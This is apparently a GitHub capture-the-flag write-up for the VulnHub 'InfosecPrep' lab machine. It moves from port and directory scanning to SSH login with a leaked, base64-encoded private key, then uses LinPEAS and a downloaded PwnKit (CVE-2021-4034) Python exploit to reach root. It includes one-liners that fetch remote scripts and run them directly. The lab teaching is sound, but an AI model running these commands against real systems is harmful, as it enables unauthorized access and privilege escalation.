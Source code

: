 # InfosecPrep

## Introduction

This <a href="https://www.vulnhub.com/entry/infosec-prep-oscp,508/">box</a> is meant to be an introduction to pentesting, and is designed to get players familiar with privilege escalation on outdated linux systems.

## Informations

### Key Processes
The machine is hosting a wordpress website<br>
<img src="page.png"><br>
and has 3 open ports :
<img src="assets/ports.png">


## Writeup

### Enumeration

#### nmap
```
sudo nmap -A -O -Pn -p- -T4 -sV 192.168.84.11
```
<img src="assets/enum.png"><br>
Browsing to port 80 takes us to the wordpress website's homepage, which has a very important information which is the username that we're going to use later. <br>

#### Getting into the machine
I tried brute forcing directories to find files or directories that could hold some pieces of information: <br>
```
gobuster -w ./wordslist2.txt -u 192.168.84.11
```
<img src="assets/gobuster.png"><br>
After checking those files, robots.txt had the clue we were looking for : <br>
<img src="assets/robots.png"><br>
<img src="assets/secret.png"><br>
At first glance, it looked like an ssh private key, so I tried to decipher the code using <a href="https://gchq.github.io/CyberChef/">Cyberchef</a> And found that it was an ssh private key base64 encrypted. <br>
```
base64 key -d > private.txt
```
After finding the private key it was time to access the machine using the username that was given to us: 
```
ssh -i private.txt oscp@192.168.84.11
```
<br> And we're finally in!<br>
<img src="assets/machine.png"><br>
It was time then to run <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS">LinPEAS</a> and check for any vulnabilities that could give us root access to the machine.
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
The system seemed to be full of vulnerabilities that could be exploited to gain control of the machine, one of them was the <a href="https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034">polkit vulnerability </a>(CVE-2021-4034).

<img src="assets/info.png"><br>
Exploits written in C couldn't work since there were not any C compilers intalled on the machine, so I either had to use the binaries or get an exploit written in a language that can be compiled/interpreted on the machine and in this case python.<br>
Exploit: https://github.com/joeammond/CVE-2021-4034
```
curl https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py --output exploit.py && python3 exploit.py
```
And voila! We've finally gained control of root and can get the flag from /root
<img src="assets/root.png">
